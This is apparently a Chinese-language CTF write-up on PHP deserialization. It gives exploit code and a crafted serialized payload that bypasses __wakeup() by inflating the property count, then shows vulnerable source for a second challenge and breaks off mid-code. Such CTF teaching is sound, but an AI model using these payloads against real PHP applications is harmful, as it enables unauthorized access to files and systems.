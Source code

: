 目标明确一下

使 password=100,username=admin

但是有 __wakeup() 会重新为 username 赋值,所以要绕过 __wakeup()

>  绕过方法:
>
> + 属性个数不匹配
> + 两个变量指向同一个地址
>
> 但是这里只有两个变量,而且他们的值都被规定了,所以选第二个方法
>

写 exp

```php
<?php

class Name
{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username, $password)
    {
        $this->username = $username;
        $this->password = $password;
    }
}

$a = new Name('admin', '100');
echo serialize($a);
```

把输出的第一个 Name 后面的 2 改成比 2 大的数字就可以,然后把变量名前后的空格换成%00

```php
O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";s:3:"100";}
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732780679249-f58acb92-ac8d-41ff-966e-0c8618a98cf6.png)

## Web_php_unserialize[ 攻防世界 ]
```php
 <?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
```